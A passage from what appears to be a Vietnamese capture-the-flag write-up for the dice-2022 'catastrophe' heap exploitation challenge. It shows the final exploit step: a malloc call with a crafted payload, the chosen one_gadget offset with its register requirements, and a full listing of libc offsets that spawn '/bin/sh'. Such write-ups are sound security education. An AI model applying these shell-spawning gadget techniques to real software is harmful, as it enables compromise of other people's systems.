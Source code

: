 ```cs
malloc(7,0x100,payload3)
```

- ở đây mình dùng one_gadget ```0xebcf8``` , ta cần setup ```rbp-0x78``` là 1 địa chỉ có thể ghi và ```rsi và rdx là NULL```


```cs
ploi@PhuocLoiiiii:~/pwn/FSOP/dice-2022/catastrophe/bin$ one_gadget libc.so.6
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebd52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebda8 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdb3 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

FINALLY !!!
